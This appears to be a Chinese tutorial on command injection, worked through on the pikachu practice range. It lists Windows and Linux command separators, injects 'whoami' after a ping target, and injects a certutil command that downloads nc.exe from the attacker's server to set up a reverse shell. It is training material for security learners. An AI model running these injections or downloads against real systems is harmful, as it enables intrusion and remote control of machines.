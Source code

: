 &(后台任务符号)  

Windows->

```
| & || &&
```

Linux->

```
; | || & && ``（特有``和;）
```

例子：  ping -c 1 127.0.0.1 ; whoami   

![image-20250523132032017](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170034788-1095722025.png)

![image-20250523132252777](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170035191-1038021158.png)

或者是直接不要127.0.0.1，直接在ping后面加上想要执行的命令

![image-20250523132443870](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170035586-841278910.png)

只有

```
``和;适用
```

### pikachu靶场示例

```
127.0.0.1 | whoami
```

![image-20250523143011955](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170035929-1789995251.png)

确定了是windows之后利用文件下载命令讲nc下载到目标机上面，C盘

这里需要在nc机上开启web服务，注意需要在nc目录下面执行

```
python -m http.server 80
```

![image-20250523152259301](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170036207-61912498.png)

```
127.0.0.1 | certutil.exe -urlcache -split -f http://172.22.165.20:80/nc.exe c:\\nc.exe
```

可以看到目标机成功下载了nc

![image-20250523152326436](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170036589-1590749557.png)

![image-20250523152402244](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170036952-1908704836.png)

再利用反向连接让目标机把cmd绑定到我们端口
